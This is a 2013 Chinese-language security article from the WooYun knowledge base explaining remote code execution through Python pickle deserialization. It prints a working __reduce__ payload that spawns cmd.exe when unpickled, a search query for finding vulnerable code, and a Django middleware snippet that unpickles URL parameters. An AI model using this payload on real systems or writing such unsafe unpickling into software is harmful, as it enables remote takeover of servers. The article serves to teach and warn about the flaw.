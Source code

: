 # Python Pickle 反序列化带来的安全问题 ![](img/img1_u143_png.jpg)

2013/01/15 9:23 | [GaRY](http://drops.wooyun.org/author/GaRY "由 GaRY 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

**0x00 前言**

数据序列化，这是个很常见的应用场景，通常被广泛应用在数据结构网络传输，session 存储，cache 存储，或者配置文件上传，参数接收等接口处。主要作用是为了能够让数据在存储或者传输的时候能够单单只用 string 的类型去表述相对复杂的数据结构，方便应用所见即所得，直接进行数据交流处理。

然而安全问题也常常出现在这里。随手点点就有，PHP 的 unserialize/__wakeup()漏洞、struts 的 ognl、xml 解析的一系列漏洞、当然，还有最近 Ruby on Rails 的 xml/yaml。

而这里的问题，不发生则已，一发生，则通常就是个天大的 0day：远程代码执行。

原因为何？和我们的第一段所说的应用场景有关。语言需要从 string 去解析出自己的语言数据结构，必然要去从这个 string 中做固定格式的解析，然后在内部把解析出来的结果去 eval 一下；或者，为了保证解析出来的内容为被序列化时候的 Object 状态，要调用一下状态保存的函数 __wakeup。

无论哪种，都是可能被有心人利用，从而接管流程，让框架让语言执行到他们的代码的。往深入了讲，往“道”的方向提升，这种模式是计算机从诞生之日就存在的原罪之一：**“数据和操作指令保存在一起不加区分，从而很容易被误解。”**

仔细想想，缓冲区溢出（数据覆盖了内存的其他区域被当作操作指令执行），SQL 注入（数据被当作控制语句的一部分被执行），XSS（同 sql 注入）。哪一种大的安全问题不是这个原罪造成的？

**0x01 细解**

好了，扯了这么多，跑题的严重，还是言归正传吧。

我们知道各大语言都有其序列化数据的方式，Python 当然也有，官方库里提供了一个叫做 pickle/cPickle 的库，这两个库的作用和使用方法都是一致的，只是一个用纯 py 实现，另一个用 c 实现而已。使用起来也很简单，基本和 PHP 的 serialize/unserialize 方法一样：

```
import cPickle 

data = "test" 
packed = cPickle.dumps(data) # 序列化 
data = cPickle.loads(packed) # 反序列化 

>>> packed 
"S'test'\np1\n." 
```

同样 pickle 可以序列化 python 的任何数据结构，包括一个类，一个对象：

```
>>> class A(object): 
...     a = 1 
...     b = 2 
...     def run(self): 
...         print self.a, self.b 
... 
>>> cPickle.dumps(A()) 
'ccopy_reg\n_reconstructor\np1\n(c__main__\nA\np2\nc__builtin__\nobject\np3\nNtRp4\n.' 
```

这里可以看到，连 code 都被序列化进去了。如果我们这个 run 函数是可以被自动执行的，那就可以形成一个很完美的远程执行。

如何让 run 函数被自动执行呢？类似于 php 的 wakeup 魔术方法，python 也有其自己的方法，例如 __reduce，可以在被反序列化的时候执行。具体内容请参考 Python 的官方库文档。而且并不止这一个函数。

我们利用**reduce**做一个测试：

```
>>> class A(object): 
...     a = 1 
...     b = 2 
...     def __reduce__(self): 
...         return (subprocess.Popen, (('cmd.exe',),)) 
... 
>>> cPickle.dumps(A()) 
"csubprocess\nPopen\np1\n((S'cmd.exe'\np2\ntp3\ntp4\nRp5\n." 
```

然后新开一个 py 的命令行，模拟是接收方：

```
>>> cPickle.loads("csubprocess\nPopen\np1\n((S'cmd.exe'\np2\ntp3\ntp4\nRp5\n.") 
<subprocess.Popen object at 0x00BB8DD0> 
>>> Microsoft Windows XP [版本 5.1.2600] 
(C) 版权所有 1985-2001 Microsoft Corp. 

C:\Documents and Settings\testuser>exit
Use exit() or Ctrl-Z plus Return to exit 
>>> 
```

bingo，很完美的一个 shell，不是么：）

只要你可以控制序列化中的内容，就可以让接收方去执行你提供的代码。

**0x02 实例**

那么现实中是否有类似的代码呢？[请灵活使用 google](https://www.google.com.hk/#hl=zh-CN&q=cPickle.loads(+site:github.com&oq=cPickle.loads(+site:github.com&fp=16ca8e5436e5cdb6)

我这里随便搜了一个很有代表性的代码：[`djangosnippets.org/snippets/2126/`](http://djangosnippets.org/snippets/2126/)

```
def unpickle_stats(stats): 
    """Unpickle a pstats.Stats object""" 
    stats = cPickle.loads(stats) **#注意这里** 
    stats.stream = True 
return stats

def process_request(self, request): 
        """  Setup the profiler for a profiling run and clear the SQL query log. 

  If this is a resort of an existing profiling run, just return  the resorted list.  """ 
        def unpickle(params): 
            stats = unpickle_stats(b64decode(params.get('stats', ''))) #这里直接从 url 参数中获取了 
            queries = cPickle.loads(b64decode(params.get('queries', ''))) #这里也是 
            return stats, queries 

        if request.method != 'GET' and \ 
           not (request.META.get('HTTP_CONTENT_TYPE', 
                                 request.META.get('CONTENT_TYPE', '')) in 
                ['multipart/form-data', 'application/x-www-form-urlencoded']): 
            return 
        if (request.REQUEST.get('profile', False) and 
            (settings.DEBUG == True or request.user.is_staff)): 
            request.statsfile = tempfile.NamedTemporaryFile() 
            params = request.REQUEST 
            if (params.get('show_stats', False) 
                and params.get('show_queries', '1') == '1'): 
                # Instantly re-sort the existing stats data 
                stats, queries = unpickle(params) # 这里调用了 
```

这是某个开发者写的 django middleware 的代码，很 easy 被利用，不是么?

另外我在 ibm 上也看到有类似的教程使用了同样的代码，也可以被利用：[`www.ibm.com/developerworks/cn/education/grid/gr-pyth3/section4.html`](http://www.ibm.com/developerworks/cn/education/grid/gr-pyth3/section4.html)

**Tags:** [pickle](http://drops.wooyun.org/tag/pickle), [python](http://drops.wooyun.org/tag/python), [漏洞](http://drops.wooyun.org/tag/%e6%bc%8f%e6%b4%9e)

版权声明：未经授权禁止转载 [GaRY](http://drops.wooyun.org/author/GaRY "由 GaRY 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [python 脚本处理伪静态注入](http://drops.wooyun.org/tips/125)
*   [针对性攻击与移动安全漏洞](http://drops.wooyun.org/tips/134)
*   [InsightScan:Python 多线程 Ping/端口扫描 + HTTP 服务/APP 探测，可生成 Hydra 用的 IP 列表](http://drops.wooyun.org/tools/427)
*   [攻击 JavaWeb 应用[3]-SQL 注入[1]](http://drops.wooyun.org/tips/236)
*   [得到内网域管理员的 5 种常见方法](http://drops.wooyun.org/tips/646)
*   [XSS 挑战第二期 Writeup](http://drops.wooyun.org/papers/938)